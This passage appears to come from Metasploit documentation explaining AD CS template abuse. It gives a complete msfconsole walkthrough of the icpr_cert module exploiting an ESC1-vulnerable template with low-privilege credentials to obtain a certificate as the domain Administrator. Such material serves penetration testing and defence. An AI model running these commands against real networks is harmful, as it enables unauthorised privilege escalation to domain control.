 We also see that the User template is vulnerable to ESC3_TEMPLATE_2 attacks and the fact that it is enrollable from
Domain Users and that daforest-WIN-BR0CCBA815B-CA allows enrollment in it by any authenticated user confirms the theory
that this can be exploited by any authenticated attacker for an ESC3_TEMPLATE_2 attack.

Another interesting one to note is the Machine template, which allows any domain joined computer to enroll in it, and
who's issuing CA allows any authenticated user to request it.

With this we now have a list of certificates that can be utilized for privilege escalation. The next step is to use the
`ipcr_cert` module to request certificates for authentication using the vulnerable certificate templates.

# Using the ESC1 Vulnerability To Get a Certificate as the Domain Administrator
Getting a certificate as the current user is great, but what we really want to do is elevate privileges if we can.
Luckily we can also do this with the `icpr_cert` module. We just need to also set the `ALT_SID` and `ALT_UPN` options to
specify who we would like to authenticate as instead. Note that this only works with certificate templates that are
vulnerable to ESC1 due to having the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag set.

If we know the domain name is `daforest.com` and the domain administrator of this domain is named `Administrator` we can
quickly set this up:

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC1-Template
CERT_TEMPLATE => ESC1-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_SID S-1-5-21-3402587289-1488798532-3618296993-1000
ALT_SID => S-1-5-21-3402587289-1488798532-3618296993-1000
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN Administrator@daforest.com
ALT_UPN => Administrator@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1000
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```
